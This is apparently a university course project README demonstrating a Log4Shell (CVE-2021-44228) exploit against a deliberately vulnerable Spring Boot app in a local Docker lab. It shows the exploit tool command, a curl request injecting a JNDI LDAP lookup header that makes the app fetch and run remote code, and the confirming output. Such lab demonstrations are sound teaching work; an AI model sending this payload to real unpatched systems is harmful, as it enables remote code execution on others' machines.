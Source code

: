 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)*

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

Now, we just need to call the app and introduce the malicious ldap server endpoint as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#1. Notice that we are including the endpoint given by the exploitation tool in the previous step (vqwfzl)
#2. The name of the header does not matter because the app will log all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server that is running under the exploitation tool which ultimately executed the given command.

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/

https://github.com/welk1n/JNDI-Injection-Exploit

https://github.com/christophetd/log4shell-vulnerable-app
